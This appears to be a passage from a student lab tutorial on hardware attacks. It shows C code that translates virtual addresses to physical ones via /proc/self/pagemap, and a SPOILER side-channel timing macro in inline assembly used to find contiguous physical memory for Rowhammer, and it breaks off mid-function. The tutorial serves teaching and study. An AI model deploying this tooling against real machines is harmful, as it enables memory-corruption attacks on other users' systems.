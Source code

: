 ```
	if(got != 8) return 0;

	// Check the "page present" flag.
	if(!(value & (1ULL << 63))) return 0;

	// return physical address
	uint64_t frame_num = value & ((1ULL << 55) - 1);
	return (frame_num * 4096) | (virtual_addr & (4095));
}
```

<p> References to look at: <br>
https://stackoverflow.com/questions/51026411/convert-virtual-address-to-physical-address#51027647 <br>
https://github.com/IAIK/flipfloyd </p>


- Students can play with the code for more exploration.
- It is recommended that the students open /proc/self/pagemap themselves to see how the memory space is being handled by the OS.


### Step 2: Find contiguous memory allocation using SPOILER. <span style="color:orange">[30 mins]</span>
**There is non-SPOILER dependent way of finding physically contiguous memory space
But SPOILER is more reliable as it returns hardware-contiguous memory space
Code is written so that either method may be used**

- Basic overview of SPOILER.

SPOILER is a side-channel attack that exploits specific store behavior of Intel processors' microarchitecture.
Using this attack we are able to find a contiguous physical memory space which significantly increases our probability of hammering two rows in the same bank.

Video Reference:
https://www.youtube.com/watch?v=353WETEIXl0

- Usage of SPOILER.
```
// Assembly code is required for SPOILER, as provided below

#define SPOILER(_memory, _time)\
do{\
   register uint32_t _delta;\
   asm volatile(\
   "rdtscp;"\
   "mov %%eax, %%esi;"\
   "mov (%%rbx), %%eax;"\
   "rdtscp;"\
   "mfence;"\
   "sub %%esi, %%eax;"\
   "mov %%eax, %%ecx;"\
   : "=c" (_delta)\
   : "b" (_memory)\
   : "esi", "r11"\
   );\
   *(uint32_t*)(_time) = _delta;\
}while(0)

void get_cont_mem_SPOILER(struct continuous_memory * ret, uint8_t * buffer){
  uint8_t * evictionBuffer;
	evictionBuffer = mmap(NULL, PAGE_COUNT * PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_POPULATE | MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	uint16_t * measurementBuffer;
	measurementBuffer = (uint16_t*) malloc(PAGE_COUNT * sizeof(uint16_t));
```